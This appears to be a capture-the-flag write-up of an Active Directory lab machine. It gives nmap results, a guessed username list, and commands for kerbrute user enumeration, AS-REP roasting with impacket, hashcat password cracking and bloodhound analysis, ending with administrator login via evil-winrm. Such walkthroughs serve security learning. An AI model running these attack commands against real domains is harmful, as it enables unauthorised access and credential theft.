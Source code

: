 # Nmap

|Protocol|Ports|
|---|---|
|  TCP  | 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49675,49676,49677,49733  |


```sh
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-28 18:11:15Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
```
Now we have a domain name: EGOTISTICAL-BANK.LOCAL

# Port 53
When trying to perform a zone transfer we find the name of the machine:

![](axfr.png)

sauna.EGOTISTICAL-BANK.LOCAL

# 139/445
Enum4linux didn't give any results.



# Port 80
On port 80 we find a website of the company. The about page gives us possible usernames:

![](sitenames.png)

I made a list with possible combinatoins for the usernames:


```sh
f.smith
fergussmith
fergus.smith
fsmith
s.coins
shauncoins
shaun.coins
scoins
s.driver
sophiedriver
sophie.driver
sdriver
b.aylor
bowietaylor
bowie.taylor
btaylor
h.bear
hugobear
hugo.bear
hbear
stevenkerb
stevenkerb
steven.kerb
skerb
```

Let's try to brute-force to see if these users exist with kerbrute:

```sh
 kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt
```

Online one user comes back positive.
![](users.png)
# AS-REP Roasting

We can looking which users don't have kerberos pre-authentication enabled:

```sh
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/FSMITH  -dc-ip 10.10.10.175
```


![](asrep.png)

Let's roast!

```sh
sudo hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt  --force

```

![](pass.png)

Login to get user.txt

![](user.png)

To enumerate the domain from our linux machien we can use the tool bloodhound-python:

![](bp.png) 

After this we load the zip file in bloodhound for analysis:

We can see that the user svc_loanmgr has DSYNC rights which means this account can perform domain controller synchronization:

![](bh.png)

Further we can find out that we can perform a kerberoast attack in the user hsmith if we have the right privileges.


# Lateral Movement

After performing analysis in bloodhound and not finding a route, I tried if some passwords are reused  en enumeration using winPEAS to get a possible privilege escaltion path. And I found the password of the svc_loanmgr account!

![](winpeas.png)



![](secrets.png)
# Root!

Now we can log in with evil-winrm as administrator:

![](34f5886fd7d2095f05f9e7a0a30b28a3)

```sh

```
